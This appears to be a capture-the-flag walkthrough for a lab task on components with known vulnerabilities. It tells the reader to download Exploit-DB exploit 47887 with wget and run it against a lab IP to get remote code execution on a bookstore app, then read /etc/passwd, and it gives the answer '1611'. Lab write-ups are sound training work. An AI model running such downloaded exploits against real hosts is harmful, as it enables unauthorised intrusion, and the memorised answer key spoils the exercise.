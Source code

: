 # Task 27  [Severity 9] Components With Known Vulnerabilities - Intro

<p align="center">
<br/>
<img src="https://i.imgur.com/XplxIsU.png" height="90%" width="90%" alt=""/>
<br />

<h2></h2>

1. How many characters are in /etc/passwd (use wc -c /etc/passwd to get the answer)

Hint: You know its a bookstore application, you should check for recent unauthenticated bookstore app rce's.

- Google: unauthenticated bookstore app rce's

<p align="center">
<br/>
<img src="https://i.imgur.com/vg1Mcdb.png" height="90%" width="90%" alt=""/>
<br />

- Click on the Exploit-DB site.

<p align="center">
<br/>
<img src="https://i.imgur.com/vvM4Z9R.png" height="90%" width="90%" alt=""/>
<br />

- Go to Terminal:
  - Download the exploit type in: wget https://www.exploit-db.com/download/47887
  - Attack the target machine type in: python3 47887 http://10.10.69.184/

<p align="center">
<br/>
<img src="https://i.imgur.com/NhCLXyc.png" height="90%" width="90%" alt=""/>
<br />

- Type in: "wc -c /etc/passwd".

<p align="center">
<br/>
<img src="https://i.imgur.com/GuES9FT.png" height="90%" width="90%" alt=""/>
<br />

Answer: `1611`

